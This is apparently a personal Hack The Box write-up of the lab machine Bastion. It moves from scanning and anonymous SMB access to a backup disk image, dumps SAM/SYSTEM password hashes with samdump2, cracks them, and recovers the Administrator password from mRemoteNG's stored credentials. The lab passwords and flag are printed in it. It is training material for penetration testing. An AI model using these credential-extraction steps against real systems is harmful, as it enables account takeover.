

**Start 08:40 13/08**

---
```
10.10.10.134
```
## Recon

==Nmap==
Quick scan shows the following:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.134            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 07:40 IST
Nmap scan report for 10.10.10.134
Host is up (0.013s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

And the thorough scan:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p- 10.10.10.134
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 07:41 IST
Nmap scan report for 10.10.10.134
Host is up (0.066s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-13T06:42:21
|_  start_date: 2024-08-13T06:39:25
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-13T08:42:19+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.69 seconds
```

Seems like we're dealing with `Windows Server 2016 Standard`.

>Task 1: How many TCP ports are open on the remote host?
>A: 4, in this case the 4 open ports are `135, 139, 445, 5985`


==SMBclient==
We've noticed that `SMB` is running on port `445`, we can now go ahead and try to login using `smbclient`. 

```bash
smbclient -N -L //10.10.10.134
```

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -N -L //10.10.10.134

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We see a `sharename` called `Backups` which does not seem to be common, let's check it out.

>Task 2: What is the name of non-standard SMB share on Blocky?
>A: Backups

After some browsing around we find this:


`.vhd` files are backups of the filesystem from a `Physical or Virtual Machine`. Since these files are quite large we'll need to shift to a `Windows VM`. In this case I downloaded a [Windows 11 VM](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/). Alternatively you can also go ahead and find any other `Windows ISO files you prefer`.

>Task 3: What is the file extension of the two most interesting files on the share?
>A: vhd

## Intel Gathering

To login I just used `SPACE - SPACE` and got right in.


Next we want to navigate to the files we've previously seen.


We want to `Open Archive` the second from the top `.vhd file`. To do this I used `7Zip`.


We need to retrieve the so called `SAM and SYSTEM hives`. SAM (Security Account Manager) is a file on Windows used as a database to store hashes for the users on Windows. These are located at `C:\WIndows\System32\config\SAM` and `C:\Windows\System32\config\SYSTEM`.

We can find these in the `config folder` within the archive.

```
\\10.10.10.134\Backups\WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd\Windows\System32\config\
```

We then find the necessary files here:


 
Right click on `SAM` & `SYSTEM` and then choose `Copy to` your preferred local location, I chose dekstop:


>Task 4: Two files are needed from a Windows machine are needed to dump it's user hashes. One is `SAM`. What is the other?
>A: `SYSTEM`

After this we want to copy these files over to our `Kali VM` in order to exploit them.

==samdump==
In order to copy the files over you can use any sort of tooling, I just chose to `drag and drop` them to my `Kali VM`


Now we can start exploiting these files

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

And just like that we got the hash for `L4mpje` as well as the `Administrator`. We are dealing with `NTLM` hashes here which we can exploit using [Crackstation](https://crackstation.net/).


It seems the `Admin` password doesn't show any result, but `L4mpje` has `bureaulampje` as his password.

>Task 5: What is the password for user L4mpje?
>A: `bureaulampje`

Using these creds we can now log in to `SSH`


## Flags

==user.txt==
After logging into `SSH` we are greeted with the following:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh L4mpje@10.10.10.134        
The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
ED25519 key fingerprint is SHA256:2ZbIDKRPlngECX1WSMqnucdOWthIaPG7wQ6mBReac7M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.134' (ED25519) to the list of known hosts.
L4mpje@10.10.10.134's password: 
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>  
```

Now we can find the `user.txt` flag inside the `Desktop folder`.

```powershell
l4mpje@BASTION C:\Users\L4mpje>cd Desktop                                                                                       

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt                                                                            
9209d6d78ffd1fc9f7ad47927aa5ba77
```


==root.txt==
Now onto the next part, before we can escalate our privileges we want to `enumerate this system`. We do that by heading into the `Program Files (x86)` and checking out what's installed there.

The one thing that stands out right away is `mRemoteNG`. This seems to be a remote connection management system that also stores credentials.



>Task 7: What is the name of the remote connection management tool installed on Bastion?
>A: `mRemoteNG`

After using `type Changelog.txt` we notice that the latest version we're on is `1.76.11 (2018-10-18)`.  After a quick Google search we find the following valuable information:


To go about this, we first want to find the `config` files. These will be found in `C:\Users\L4mpje\AppData\Roaming\mRemoteNG>`. Afterwards we want to copy these config files over to ourselves.


>Task 8: What is the name of the file that `mRemoteNG` uses to store encrypted user passwords?
>A: `confCons.xml`

Now that that is done we can open the config file by running the `mRemoteNG` application which we can [download here](https://mremoteng.org/download).
If all goes accordingly it should look somewhat like this:


Afterwards we can right click on `Connections` -> `import` -> `Import from file`. We then select the `confCons.xml file`. Now we need click on `Tools` -> `External Tools` and then `New`. As soon as you've done this it should look like this:


Now we want to add the following 

```powershell
cmd /k echo "password %password%"
```


Now we want to right-click on `DC` -> `External Tools` -> `New External tool`:

```
"password thXLHM96BeKL0ER2" 
```

The above should pop up inside of a `CMD` window.
Now we should be able to `SSH` into the machine as `Administrator` using the newly acquired password.

>Task 9: What is the administrator's password?
>A: thXLHM96BeKL0ER2


---

**Finished 16:14 13/08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
